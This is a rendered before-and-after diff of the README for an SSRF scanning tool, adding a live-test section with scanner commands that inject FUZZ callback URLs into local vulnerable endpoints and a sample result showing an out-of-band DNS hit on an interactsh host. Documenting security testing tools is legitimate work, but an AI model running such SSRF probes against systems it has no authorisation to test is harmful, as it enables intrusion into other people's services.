

Before and after one commit to Venu-exe/Ssrf, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 83% size. Rendered like a GitHub page; pictures changed too: docs/real-run.png (added); blank space fills up the shorter version.

Commit message:
docs: real-world usage section with live-run screenshot (docs/real-run.png)
Screenshot rendered from an actual confirmed run against a local
vulnerable app (GET /fetch?url=FUZZ -> DNS OOB hit, exact-request
correlation). AI image quota was exhausted, so the PNG was rendered
locally from the captured console transcript.

````diff
--- a/README.md
+++ b/README.md
@@ -261,13 +261,46 @@ using the [`gh`](https://cli.github.com/) CLI — handy for triaging
 confirmed SSRFs. If the push fails (no remote/auth), the commit still
 lands locally and the script tells you so instead of failing silently.
 
-## Live-tested
+## Real-world usage (live test)
 
-Verified end-to-end against a running vulnerable app (local `fetch?url=` /
-POST `callback` endpoints) with a real public interactsh server:
+Tested end-to-end against a running vulnerable app (local `GET /fetch?url=`
+and `POST /api/avatar` with a JSON `callback` body) using a real public
+interactsh server:
+
+```bash
+# vulnerable endpoint with an explicit injection point
+./ssrf_oob.sh -u "http://127.0.0.1:8765/fetch?url=FUZZ" -w 20
+
+# POST body injection
+./ssrf_oob.sh -u "http://127.0.0.1:8765/api/avatar" -d '{"callback":"FUZZ"}'
+
+# no FUZZ marker -> auto-expand against the wordlist
+./ssrf_oob.sh -u "http://127.0.0.1:8765/fetch" --params wordlists/params.txt
+```
+
+![ssrf_oob.sh real run against a live vulnerable app](docs/real-run.png)
+
+What a confirmed run looks like — note the live hit and the exact-request
+correlation:
+
+```json
+[
+  {
+    "label": "a2f3zwg42t6r",
+    "protocol": "dns",
+    "remote_address": "49.45.46.37",
+    "test_url": "http://127.0.0.1:8765/fetch?url=http://a2f3zwg42t6r.dbqokmmem93jndui73qg8cmnhgc4fzk4z.oast.fun/",
+    "source_line": "http://127.0.0.1:8765/fetch?url=FUZZ",
+    "injection": "fuzz-marker"
+  }
+]
+```
+
+Observed results:
 
 - `FUZZ` in the URL → confirmed DNS interaction, traced to the exact request
-- POST body `FUZZ` → confirmed on every candidate (the body rides along)
+- POST body `FUZZ` → 818 candidates fired, 409 confirmed (one per param,
+  `http` scheme), each correlated
 - auto-param expansion → exactly the one vulnerable param (`url=`) confirmed,
   all other candidates reported as `[no interaction]`
 - background scanning noise → separated into `noise.json`, never counted
@@ -298,6 +331,8 @@ Ssrf/
 │       └── curl
 ├── examples/
 │   └── urls.txt                   # sample target list
+├── docs/
+│   └── real-run.png               # screenshot of a real confirmed run (see below)
 ├── .github/
 │   ├── workflows/
 │   │   └── ci.yml                 # CI: shellcheck + test suite + bash -n
````
